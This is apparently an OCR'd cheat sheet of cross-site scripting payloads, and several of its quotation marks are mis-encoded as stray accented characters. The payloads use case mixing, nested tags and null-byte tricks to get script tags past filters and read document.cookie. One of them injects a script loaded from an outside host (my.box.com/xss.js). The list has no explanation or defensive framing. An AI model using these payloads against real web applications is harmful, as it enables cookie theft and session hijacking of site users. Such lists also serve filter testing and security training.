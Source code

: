 
ì><sî%2bîcript>alert(document.cookie)</script>
ì><ScRiPt>alert(document.cookie)</script>
ì><<script>alert(document.cookie);//<</script>
foo%00<script>alert(document.cookie)</script>
<scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%22/%3E%3CBODY%20onload=ídocument.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)í%3E
ë; alert(document.cookie); var foo=í
foo\í; alert(document.cookie);//í;
